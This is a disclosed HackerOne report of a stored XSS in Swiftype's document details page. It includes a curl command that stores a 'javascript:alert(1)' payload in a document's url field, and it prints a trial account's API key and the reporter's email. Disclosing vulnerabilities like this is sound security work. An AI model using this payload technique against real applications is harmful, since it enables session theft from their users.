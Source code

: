 # [Swiftype] - Stored XSS via document field `url` triggers on `https://app.swiftype.com/engines/<engine>/document_types/<type>/documents/<id>`

## Report Details
- **Report ID**: 1245787
- **URL**: https://hackerone.com/reports/1245787
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-06-27T17:12:11.813Z
- **Disclosed**: 2021-08-03T17:12:57.921Z

## Reporter
- **Username**: superman85
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
Dear Team,

I have found a stored XSS when create a document via API-based engine. The XSS payload stored in `url` field. 
To understand about document schema for API-based engine, please go to https://swiftype.com/documentation/site-search/guides/schema-design#api-based

After indexed a document with XSS payload stored in `url` field. When view the document details, click on link `View on your site` the XSS will triggered.

Step to reproduce
===

1 - Create a trial account on https://app.swiftype.com/ my admin account email is `qwerty.chan8@gmail.com`
2 - Create a API-based Engine by visit https://app.swiftype.com/engines/api , choose a Engine name and DocumentType Name and click Create Engine.For example in my case (Engine: **123**, DocumentType: **test**)

{F1355460}

3 - Go to https://app.swiftype.com/settings/account and obtain your API Key for example in my case: **gB7BT3iA3GhqoU_SWoRq**

{F1355464}

4 - Call API to create a document follow curl command below, store XSS payload `javascript:alert(1)` in `url` and `thumbnail_url` field value

```
curl -X POST 'https://api.swiftype.com/api/v1/engines/123/document_types/test/documents.json' \
  -H 'Content-Type: application/json' \
  -d '{
        "auth_token": "gB7BT3iA3GhqoU_SWoRq",
        "document": {
          "external_id": "v1uyQZNg2vE",
          "fields": [
            {"name": "url", "value": "javascript:alert(1)", "type":  "enum"},
            {"name": "thumbnail_url", "value": "javascript:alert(1)", "type": "enum"},
            {"name": "channel_id", "value": "UCK8sQmJBp8GCxrOtXWBpyEA", "type": "enum"},
            {"name": "title", "value": "How It Feels [through Glass]", "type": "string"},
            {"name": "caption", "value": "Want to see how Glass actually feels?...", "type": "text"},
            {"name": "tags", "value": ["glass", "wearable computing", "google"], "type": "string"},
            {"name": "category_name", "value": "Science & Technology", "type": "string"},
            {"name": "category_id", "value": 28, "type": "enum"},
            {"name": "published_at", "value": "2013-02-20T10:47:18", "type": "date"},
            {"name": "duration", "value": 136, "type": "integer"},
            {"name": "view_count", "value": 14599202, "type": "integer"},
            {"name": "like_count", "value": 75952, "type": "integer"}
          ]
        }
     }'
```
5 - Go to Engine **123** and click on Manage -> Content or https://app.swiftype.com/engines/123/document_types/test/documents#q=&page=1

{F1355463}

6 - Click on document ID **v1uyQZNg2vE** you just created, you can see the document details

{F1355462}

7 - Click on the link `http://javascript:alert(1)` in document details

{F1355461}

{F1355465}

## Impact

Steal other users sessions, trick users go to unwanted websites

## Attachments
- create_api_engine.png
- click_link.png
- document_details.png
- document_list.png
- retrieve_api_key.png
- xss_fires.png
